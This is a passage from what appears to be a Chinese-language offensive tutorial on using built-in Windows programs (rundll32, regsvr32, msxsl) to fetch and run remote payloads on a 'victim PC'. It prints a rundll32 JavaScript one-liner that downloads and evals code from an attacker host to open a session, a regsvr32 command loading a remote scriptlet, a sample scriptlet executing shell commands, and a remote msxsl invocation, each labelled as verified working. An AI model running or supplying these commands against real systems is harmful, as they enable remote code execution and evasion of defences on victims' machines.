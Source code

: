 ~~~powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
~~~

步骤三：在受害者PC运行该代码，将成功返回一个会话，如下图所示：

![](http://img-upaiyun-own.test.upcdn.net/20200413-12-3.png)



**13、regsvr32 **【验证成功】

Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行

在目标机上执行：

~~~powershell
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
~~~

可以通过自己构造.sct文件，去下载执行我们的程序

~~~xml
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);
        ]]>
</script>
</registration>
</scriptlet>
~~~

执行命令，成功弹计算器：

![](http://img-upaiyun-own.test.upcdn.net/20200413-13.png)



**14、MSXSL.EXE**【验证成功】

msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令。

下载地址为：https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML及XSL文件，可以远程加载，具体方式如下：

```powershell
msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
```

demo.xml
